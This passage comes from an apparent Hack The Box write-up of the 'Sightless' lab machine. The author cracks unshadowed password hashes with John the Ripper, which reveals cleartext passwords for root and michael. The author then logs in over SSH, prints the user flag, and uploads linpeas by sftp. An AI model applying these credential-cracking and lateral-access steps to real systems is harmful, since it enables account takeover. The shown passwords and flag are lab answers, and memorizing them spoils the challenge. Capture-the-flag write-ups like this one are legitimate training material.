 On our VM we attempt to crack.  We have success for root and michael.

```
──(root㉿kali)-[/home/kali/Downloads/HTB/Sightless]
└─# unshadow passwd shadow > hashes

┌──(kali㉿kali)-[~/Downloads/HTB/Sightless]
└─$ john hashes --wordlist=/usr/share/wordlists/rockyou.txt
Warning: only loading hashes of type "sha512crypt", but also saw type "md5crypt"
Use the "--format=md5crypt" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
brightside        (root)     
shags2dope (michael)     
2g 0:00:00:27 DONE (2024-09-26 17:45) 0.07331g/s 2148p/s 3603c/s 3603C/s kruimel..galati
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We try michael's newly acquired password on the host and have our user flag!  Root; not as lucky.

```
┌──(root㉿kali)-[/home/kali/Downloads/HTB/Sightless]
└─# ssh michael@10.10.11.32                       
michael@10.10.11.32's password: 
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ ls
user.txt
michael@sightless:~$ cat user.txt
e1958ad90f361b9da3a547caa84c0xdd
```
```
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.11.32
root@10.10.11.32's password: 
Permission denied, please try again.
root@10.10.11.32's password:
```

Back to enumeration.  Attempting to download linpeas on the box itself fails and is blocked.  Lets attempt to transfer using michael's creds.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sftp michael@10.10.11.32            
michael@10.10.11.32's password: 
Connected to 10.10.11.32.
sftp> ls
user.txt  
sftp> put linpeas.sh 
Uploading linpeas.sh to /home/michael/linpeas.sh
linpeas.sh                                                        100%  806KB   2.2MB/s   00:00    
sftp> ls
linpeas.sh  user.txt    
sftp> exit
```
